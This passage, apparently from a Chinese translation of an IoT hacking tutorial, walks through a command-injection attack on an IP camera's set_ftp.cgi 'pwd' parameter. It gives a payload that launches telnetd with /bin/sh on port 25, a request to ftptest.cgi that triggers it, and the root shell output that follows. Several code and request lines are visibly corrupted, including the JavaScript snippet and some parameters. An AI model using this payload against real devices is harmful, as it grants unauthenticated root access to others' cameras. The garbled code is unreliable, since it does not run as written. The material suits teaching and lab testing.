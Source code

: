 6.  刷新到`ftp.htm`页面后，我们观察到 ICMP 数据包被发送到我们的主机：

```
$ tcpdump host 192.168.1.177 and icmp

15:27:08.400966 IP 192.168.1.177 > 192.168.1.184: ICMP echo request, id 42832, seq 0, length 64
15:27:08.401013 IP 192.168.1.184 > 192.168.1.177: ICMP echo reply, id 42832, seq 0, length 64
15:27:09.404737 IP 192.168.1.177 > 192.168.1.184: ICMP echo request, id 42832, seq 1, length 64
15:27:09.404781 IP 192.168.1.184 > 192.168.1.177: ICMP echo reply, id 42832, seq 1, length 64
15:27:10.666983 IP 192.168.1.177 > 192.168.1.184: ICMP echo request, id 42832, seq 2, length 64
15:27:10.667031 IP 192.168.1.184 > 192.168.1.177: ICMP echo reply, id 42832, seq 2, length 64  
```

7.  现在我们知道`pwd`参数容易受到命令注入的影响，我们的下一个目标是获得对目标设备的 shell 访问。我们知道 IP 摄像头包含基于 FTP 使用情况的遗留守护程序，而且很可能也使用了 Telnet。接下来，我们将调用 Telnet 在端口`25`上启动，并使用以下有效负载将我们放入一个没有用户名或密码的 shell 中：

```
/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&loginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(telnetd -p25 -l/bin/sh)&dir=/&mode=PORT&upload_interva'=0'  
```

8.  我们也知道应用程序需要刷新`ftp.htm`页面才能保存设置，但是，查看页面的源代码时，它会调用一个名为`ftptest.cgi`的 CGI 来执行我们的负载。以下是从`ftp.htm`页面执行有效负载的代码片段：

```
function ftp_test() {              
   var url;              
   url'= 'ftptest.cgi?next_url=test_ftp.'tm';              
   url '= '&loginu'e=' + top.cookieuser'+ '&loginp's=' + encodeURIComponent(top.cookiepass);              
   window.open(ur"" """ "")         } 
```

9.  接下来，我们可以通过以下`GET`请求直接调用`ftptest.cgi`保存我们的设置：

```
/ftptest.cgi?next_url=test_ftp.htm&loginuse=admin&loginpas=ad'in'  
```

10.  Telnet 现在正在端口`25`上运行，并为我们提供了一个根 shell：

```
$ telnet 192.168.1.177 25
Trying 192.168.1.177...
Connected to 192.168.1.177.
Escape character 's '^]'.

/ # id
uid=0(root) gid=0
/ # mount
rootfs on / type rootfs (rw)
/dev/root on / type squashfs (ro,relatime)
/proc on /proc type proc (rw,relatime)
sysfs on /sys type sysfs (rw,relatime)
tmpfs on /dev type tmpfs (rw,relatime,size=2048k)
tmpfs on /tmp type tmpfs (rw,relatime,size=5120k)
devpts on /dev/pts type devpts (rw,relatime,mode=600,ptmxmode=000)
/dev/mtdblock3 on /system type jffs2 (rw,relatime)
/ # uname -a
Linux apk-link 3.10.14 #5 PREEMPT Thu Sep 22 09:11:41 CST 2016 mips GNU/Linux

```
